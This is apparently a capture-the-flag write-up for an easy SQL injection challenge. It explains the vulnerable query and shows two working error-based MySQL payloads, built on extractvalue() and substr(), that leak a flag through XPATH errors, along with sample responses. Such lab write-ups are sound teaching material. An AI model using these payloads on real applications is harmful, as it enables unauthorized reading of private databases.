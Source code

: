 # PA_easySQL1

## Challenge Description
A simple SQL injection challenge that requires extracting the flag from the database using error-based SQL injection techniques.

## Initial Analysis
When accessing the challenge, we can see it accepts user input that gets processed by a SQL query. Time to test for SQL injection vulnerabilities!

## Reconnaissance 
First, let's understand the backend SQL query structure:
```sql
SELECT EXISTS((SELECT 1 FROM your_table_name WHERE id = 'USER_INPUT')) LIMIT 0,1;
```

The application takes user input and places it directly into the WHERE clause - classic SQL injection vulnerability!

## Exploitation Strategy
Since this is a blind SQL injection scenario (no direct output), we'll use **error-based SQL injection** with MySQL's `extractvalue()` function to leak data through error messages.

### Why extractvalue()?
- `extractvalue(xml_document, xpath_expression)` is designed for XML parsing
- When given malformed XPath expressions, it throws errors that include our injected data
- Perfect for exfiltrating database contents when normal SELECT output isn't visible

## Payload Development

### Breaking Down the Injection
We need to:
1. Close the original query properly
2. Inject our malicious `extractvalue()` call
3. Extract the flag from the database

### Final Payloads

#### Payload 1 - First 32 characters:
```sql
3' AND '4' > '5')) AND extractvalue(1, concat(0x7e, substr((SELECT flag FROM flag LIMIT 0,1), 1, 32), 0x7e)) #
```

#### Payload 2 - Characters 20-52 (overlap for longer flags):
```sql
3' AND '4' > '5')) AND extractvalue(1, concat(0x7e, substr((SELECT flag FROM flag LIMIT 0,1), 20, 32), 0x7e)) #
```

### Payload Breakdown:
- `3'` → Provides valid ID and closes quote
- `AND '4' > '5'` → False condition (keeps query logic intact)
- `))` → Closes the EXISTS() and inner SELECT parentheses  
- `extractvalue(1, concat(...))` → Our malicious function call
- `0x7e` → Hex for `~` character (used as delimiter)
- `substr((SELECT flag FROM flag), 1, 32)` → Extract flag substring
- `#` → Comment out rest of original query

## Exploitation Process

1. **Submit Payload 1**: Get first part of flag
   ```
   Response: XPATH syntax error: '~flag{this_is_the_first_part~'
   ```

2. **Submit Payload 2**: Get remaining characters (if needed)
   ```
   Response: XPATH syntax error: '~part_of_the_flag}~'
   ```

3. **Combine Results**: Merge the extracted parts to get the complete flag

## Key Technical Details

- **Delimiter Strategy**: Using `0x7e` (~) makes extracted data easy to spot in error messages
- **Substring Approach**: `substr()` handles MySQL's error message length limitations
- **Overlap Method**: Second payload starts at position 20 to catch longer flags
- **Query Closure**: Proper parentheses balancing prevents syntax errors

## Flag
After running both payloads and combining the results:
```
flag{extracted_from_error_messages}
```

## Lessons Learned
- Error-based SQL injection is powerful when blind techniques are needed
- MySQL's `extractvalue()` function is excellent for data exfiltration
- Always test for SQL injection in any user input fields
- Proper input sanitization and parameterized queries prevent these issues
```
